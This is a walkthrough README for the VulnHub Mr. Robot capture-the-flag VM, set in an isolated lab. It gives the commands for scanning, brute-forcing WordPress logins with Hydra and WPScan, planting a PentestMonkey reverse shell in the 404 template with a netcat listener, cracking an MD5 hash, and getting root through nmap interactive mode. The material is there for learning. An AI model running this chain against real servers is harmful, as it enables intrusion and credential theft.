# Mr. Robot CTF Walkthrough

## Overview

This repository contains a comprehensive walkthrough of the **Mr. Robot** CTF challenge on VulnHub. Inspired by the _Mr. Robot_ TV series, this challenge involves exploiting a vulnerable web application, gaining server access, escalating privileges, and capturing hidden flags. Rated as **Easy-Medium**, this CTF provides an engaging learning experience for cybersecurity enthusiasts.

- **Difficulty**: Easy-Medium  
- **Operating System**: Linux  
- **VM Source**: [Vulnhub - Mr. Robot](https://www.vulnhub.com/entry/mr-robot-1,151/)

---

## Table of Contents

1. [Objectives](#objectives)
2. [Network Configuration](#network-configuration)
3. [Technical Requirements](#technical-requirements)
4. [Setup](#setup)
5. [Walkthrough](#walkthrough)
   - [Flag One](#flag-one)
   - [Flag Two](#flag-two)
   - [Flag Three](#flag-three)
6. [Post-Exploit Analysis](#post-exploit-analysis)
7. [Takeaways](#takeaways)

---

## Objectives

The primary objectives of this CTF include:

1. Gaining initial access to the target machine.
2. Performing privilege escalation.
3. Capturing the three hidden flags within the target system.

---

## Network Configuration

- **Attacker Machine**: Kali Linux (VirtualBox/VMware)
- **Target Machine**: Mr. Robot VM (Connected to an isolated network)
- **Internal Network**: SoldierNet (for isolated communication between attacker and target)

**IP Configuration**:
- Attacker IP: `192.168.56.11`
- Target IP: `192.168.56.10`
- IP Range: `192.168.56.0/24`

---

## Technical Requirements

The following tools were used throughout the walkthrough:

- **BurpSuite**: For intercepting HTTP requests
- **Nmap**: For scanning open ports and services
- **Nikto**: For web vulnerability scanning
- **WPScan**: For WordPress brute-forcing
- **John the Ripper**: For hash cracking
- **Hydra**: For brute-forcing login credentials
- **Netcat**: For establishing reverse shells
- **Linux Enumeration Scripts**: For privilege escalation analysis

---

## Setup

1. Download and set up the Mr. Robot VM from [Vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/).
2. Add the VM to your preferred hypervisor (VirtualBox/VMware) and connect it to an isolated network for secure testing.
3. Power on the VM and start your attacker machine to begin reconnaissance.

---

## Walkthrough

### Flag One

1. **Initial Nmap Scan**  
    Identify open ports and services on the target machine:
    ```bash 
    nmap -sS -sV -Pn 192.168.56.10
![Nmap Scan](path-to-file)

2. **Nikto Web Vulnerability Scan**
    Scan for potential vulnerabilities:
    ```bash nikto -h http://192.168.56.10 ```
    ![Nikto Scan](path-to-file)

3. **Access robots.txt and Download Files**
    use 'wget' to retrieve files foind in 'robots.txt':
    ```bash wget http://192.168.56.10/robots.txt```

4. **Capture Flag One**
    Display contents of retrieved files to find first flag.
    ![FlagOne](path-to-file)
### Flag Two

1. **Nikto WordPress Vulnerability Scan**
    Perform a Nikto scan to identify WordPress vulnerabilities:
    ```bash nikto -h http://192.168.56.10```
    ![NiktoWPscan](path-to-file)

2. **Connect to WordPress Login Page**
    Navigate to the WordPress login page in your browser:
    ```bash http://192.168.56.10/wp-admin```
    ![WordPress Login](path-to-file)

3. **Capture HTTP Request with BurpSuite**
    Use BurpSuite to intercept and analyze the HTTP request:
    ```bash sudo burpsuite```
    ![BurpSuiteResults](path-to-file)

4. **Enumerate Username with Hydra**
    Use Hydra to enumerate possible usernames:
    ```bash hydra -L usernames.txt -P passwords.txt 192.168.56.10 http-post-form "/wp-login.php"```
    ![HydraResults](path-to-file)

5. **Brute-Force WordPress Site with WPScan**
    Use WPScan to brute-force login credentials:
    ```bash wpscan --url http://192.168.56.10 --enumerate u```
    ![WPscanResults](path-to-file)

6. **Login to WordPress and Obtain Reverse Shell Payload**
    After logging into WordPress, download a reverse shell payload from PentestMonkey and set your attacker IP and desired port.
    [pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

7. **Inject Reverse Shell in 404 Template**
    Go to Appearance -> Editor -> 404 Template in WordPress and replace the content with your reverse shell payload.
    ![WordPressTemplate404](path-to-file)

8. **Initiate Listener**
    Set up a Netcat listener on the attacker machine:
    ```bash nc -lvnp 443```
    Then, visit the 404 page to trigger the reverse shell:
    ```bash http://192.168.56.10/wp-content/themes/twentyfifteen/404.php```

9. **Upgrade Shell with Python**
    Once the shell is established, upgrade it for a better TTY experience:
    ```bash python -c 'import pty; pty.spawn("/bin/bash")'```
    ![PythonShell](path-to-file)

10. **Locate 'robot' User Directory**
    Navigate to the '/home/robot' directory to find files related to the second flag.
    ![RobotFolder](path-to-file)

11. **Crack MD5 Password File with JohntheRipper**
    Use John the Ripper to crack the MD5 hash in the 'password.raw-md5' file:
    ```bash john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt password.raw-md5```
    ![JohntheRipperResults](path-to-file)

12. **Switch user to 'robot'**
    Switch to the robot user with the cracked password and capture Flag Two.
    ![FlagTwo](path-to-file)

### Flag Three

1. **Privelege Escalation**
    Search for files with SUID permissions, which can be exploited for privilege escalation:
    ```bash find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null```
    ![FindResults](path-to-file)

2. **Exploit Nmap Interactive Mode**
    Use Nmap’s interactive mode to gain root access:
    ```bash sudo nmap --interactive```
    Start a shell from within the interactive Nmap session:
    ```bash !sh```
    ![NmapIntResults](path-to-file)

3. **Capture Flag Three**
    As root, access and read the third flag file located in '/root/key-3-of-3.txt'.
    ![FlagThree](path-to-file)